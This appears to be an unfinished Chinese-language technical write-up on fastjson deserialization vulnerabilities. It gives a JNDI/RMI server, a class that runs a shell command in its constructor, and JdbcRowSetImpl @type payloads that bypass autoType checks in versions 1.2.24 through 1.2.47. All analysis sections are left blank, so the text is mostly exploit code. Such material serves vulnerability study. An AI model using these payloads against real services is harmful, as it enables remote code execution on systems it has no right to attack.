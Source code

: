 

# 背景

阿里巴巴的fastjson作为java语言的json解析包，因为其易用性在国内被广泛应用。但是其安全性一直被诟病。因此，本文对其多次安全漏洞进行了分析总结。

# fastjson安全特性

fastjson存在一个特殊的key：@type。它可以指定将json字符串反序列化为value中指定的任意类。形如：

```json
{"@type":"com.xx.hello", "hello":"xx"}
```
能通过fastjson的JSON.parseObject方法反序列化为com.xx.Hello DTO类的一个实例对象。
而fastjson的诸多安全漏洞，都是围绕@type产生

# 漏洞案例

详细代码请参考：[java-demo fastjson](https://github.com/chnherb/java-demo/tree/master/src/main/java/com/huangbo/fastjson)

## 服务端代码

1、rmi server

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import lombok.Data;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class RmiFastJsonSafeServer {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099);
//        Reference reference = new javax.naming.Reference("com.huangbo.fastjson.Hello1", "com.huangbo.fastjson.Hello1", "http://127.0.0.1:1099/");
        Reference reference = new javax.naming.Reference("com.huangbo.fastjson.Hello", "com.huangbo.fastjson.Hello", "http://127.0.0.1:1099/");
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(reference);
        registry.bind("hello", referenceWrapper);
    }
}
```
2、hello.java
```java
import lombok.Data;
@Data
public class Hello { // 这里需要为public才能调用到
    String hello;
    public Hello() {
        try {
            Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c",
                    "/Applications/Calendar.app/Contents/MacOS/Calendar"});
        } catch (Exception e) {
        }
    }
}
```

## 1、本地调用示例

```java
// 1、这种调用方式不需要 hello 是public
String json = "{\"@type\": \"com.huangbo.fastjson.Hello\", \"hello\":\"hahaha\"}";
Object obj = JSON.parseObject(json);
System.out.println(obj);待补充
```
### 原理分析

待补充

## 2、远程调用示例

```java
//2、fastjson 1.2.24
//这种调用方式需要 hello 是public
String payload = "{\"@type\": \"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/hello\",\"autoCommit\":true}";
JSON.parse(payload);
```
### 原理分析

待补充

## 3、Lxx;漏洞

```java
// 3、fastjson 1.2.41
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 必须开启才能调用
String payload = "{\"@type\": \"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"rmi://localhost:1099/hello\",\"autoCommit\":true}";
JSON.parse(payload);
```
### 原理分析

待补充

## 4、LLxx;;漏洞

```java
// 4、fastjson 1.2.42
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 必须开启才能调用
String payload = "{\"@type\": \"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"dataSourceName\":\"rmi://localhost:1099/hello\",\"autoCommit\":true}";
JSON.parse(payload);
```
### 原理分析

待补充

## 5、[漏洞

```java
// 5、fastjson 1.2.43
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 必须开启才能调用
String payload = "{\"@type\": \"[com.sun.rowset.JdbcRowSetImpl\"[{\"dataSourceName\":\"rmi://localhost:1099/hello\",\"autoCommit\":true]}";
JSON.parse(payload);
```
### 原理分析

待补充

## 6、缓存漏洞

```java
// 6、fastjson 1.2.47
String payload = "{" +
        "    \"a\":{" +
        "        \"@type\":\"java.lang.Class\"," +
        "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"" +
        "    }," +
        "    \"b\":{" +
        "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
        "        \"dataSourceName\":\"rmi://localhost:1099/hello\"," +
        "        \"autoCommit\":true" +
        "    }" +
        "}";
JSON.parse(payload);
```

### 原理分析

待补充


# Reference

[Fastjson 1.2.24反序列化漏洞分析](https://www.freebuf.com/vuls/178012.html)

[浅谈Fastjson RCE漏洞的绕过史](https://www.freebuf.com/vuls/208339.html)

[github fastjson远程执行poc](https://github.com/shengqi158/fastjson-remote-code-execute-poc)

[fastjson 远程反序列化poc的构造和分析](http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90)

[基于JdbcRowSetImpl的Fastjson RCE PoC构造与分析](http://xxlegend.com/2018/10/23/%E5%9F%BA%E4%BA%8EJdbcRowSetImpl%E7%9A%84Fastjson%20RCE%20PoC%E6%9E%84%E9%80%A0%E4%B8%8E%E5%88%86%E6%9E%90)

[如何绕过高版本JDK限制进行JNDI注入利用](https://mp.weixin.qq.com/s/Dq1CPbUDLKH2IN0NA_nBDA)

[Fastjson 1.2.67版本刚刚发布即爆出严重漏洞](https://www.donews.com/news/detail/4/3086961.html)

[Spring IOC前世今生之JDNI](https://www.cnblogs.com/binarylei/p/12273010.html)

[JDNI注入学习](https://www.anquanke.com/post/id/233629)

